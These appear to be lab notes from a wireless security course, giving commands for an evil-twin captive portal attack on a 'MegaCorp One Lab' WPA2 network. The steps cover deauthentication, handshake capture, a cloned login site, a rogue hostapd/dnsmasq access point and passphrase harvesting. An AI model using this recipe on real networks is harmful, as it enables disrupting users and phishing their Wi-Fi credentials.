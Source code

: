 ## Captive Portal
```text
sudo airodump-ng -w discovery --output-format pcap wlan0mon

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
00:0E:08:90:3A:5F  -75        3        0    0  11  130   WPA2 CCMP   PSK  MegaCorp One Lab
```

#deauth to capture handshakes on seperate terminal
```text
sudo aireplay-ng -0 0 -a 00:0E:08:90:3A:5F wlan0mon
```
grab handshake to use later


## Building the Captive Portal
```text
sudo apt install apache2 libapache2-mod-php
```

## recursive download for background images - this will download to www.megacorpone.com
```text
wget -r -l2 https://www.megacorpone.com
```
## copy data over to portal
```text
mkdir /var/www/html/portal/
sudo cp -r ./www.megacorpone.com/assets/ /var/www/html/portal/
sudo cp -r ./www.megacorpone.com/old-site/ /var/www/html/portal/
```
```text
nano /var/www/html/portal/index.php
nano /var/www/html/portal/login_check.php
nano /var/www/html/portal/login_check2.php
sudo chmod 644 *.php
```
```text
mkdir /data
sudo chown www-data:www-data /data
```

## network
```text
sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
```
```text
sudo systemctl enable dnsmasq && sudo systemctl enable hostapd
sudo pkill dnsmasq
```
```text
sudo ufw allow in 53 tcp
sudo ufw allow in 53 udp
sudo ufw allow in 67 udp
```
```text
sudo dnsmasq --conf-file=/home/<user>/mco-dnsmasq.conf --test
sudo dnsmasq --conf-file=mco-dnsmasq.conf
##debugging
sudo dnsmasq --conf-file=/home/<user>/mco-dnsmasq.conf --log-debug -d
```
```text
sudo systemctl status dnsmasq.service
sudo netstat -lnp
sudo cat /var/log/dnsmasq.log
```

```text
sudo apt install nftables
sudo nft add table ip nat
sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53
```
```text
sudo nft list table ip nat
table ip nat {
        chain PREROUTING {
                type nat hook prerouting priority dstnat; policy accept;
                iifname "wlan0" udp dport 53 counter packets 0 bytes 0 redirect to :53
        }
}
```


## Apache2
```text
nano etc/apache2/sites-enabled/000-default.conf
sudo a2enmod rewrite
sudo a2enmod alias
sudo a2enmod ssl
sudo systemctl restart apache2
```


## hostapd
```text
nano mco-hostapd.conf
sudo hostapd -B mco-hostapd.conf
```

sudo tail -f /var/log/apache2/access.log
sudo find /tmp/ -iname passphrase.txt




https://wiki.gentoo.org/wiki/Hostapd
